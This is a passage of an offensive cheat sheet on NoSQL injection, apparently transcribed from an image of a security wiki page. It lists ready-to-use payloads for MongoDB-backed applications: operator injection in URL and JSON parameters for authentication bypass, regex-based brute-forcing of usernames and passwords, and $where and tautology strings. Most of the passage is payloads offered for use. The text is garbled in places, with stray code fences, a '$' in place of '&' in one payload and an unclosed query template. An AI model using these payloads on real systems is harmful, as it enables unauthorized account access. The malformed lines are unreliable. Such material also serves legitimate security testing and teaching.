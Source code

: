 # NoSQL injection


## Exploit

In PHP you can send an Array changing the sent parameter from _parameter=foo_ to _parameter[arrName]=foo._

The exploits are based in adding an **Operator**:

```bash
username[$ne]=1$password[$ne]=1 #<Not Equals>
username[$regex]=^adm$password[$ne]=1 #Check a <regular expression>, could be used to brute-force a parameter
username[$regex]=.{25}&pass[$ne]=1 #Use the <regex> to find the length of a value
username[$eq]=admin&password[$ne]=1 #<Equals>
username[$ne]=admin&pass[$lt]=s #<Less than>, Brute-force pass[$lt] to find more users
username[$ne]=admin&pass[$gt]=s #<Greater Than>
username[$nin][admin]=admin&username[$nin][test]=test&pass[$ne]=7 #<Matches non of the values of the array> (not test and not admin)
{ $where: "this.credits == this.debits" }#<IF>, can be used to execute code
```
```
### Basic authentication bypass

**Using not equal ($ne) or greater ($gt)**

```bash
#in URL
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```
```
### **SQL - Mongo**

```javascript
query = { $where: `this.username == '${username}' }
```
```
An attacker can exploit this by inputting strings like `admin' || 'a'=='a`, making the query return all documents by satisfying the condition with a tautology (`'a'=='a'`). This is analogous to SQL injection attacks where inputs like `' or 1=1-- -` are used to manipulate SQL queries. In MongoDB, similar injections can be done using inputs like `' || 1==1//`, `' || 1==1%00`, or `admin' || 'a'=='a`.

```
Normal sql: ' or 1=1-- -
Mongo sql: ' || 1==1//    or    ' || 1==1%00     or    admin' || 'a'=='a
```
```
### Extract **length** information
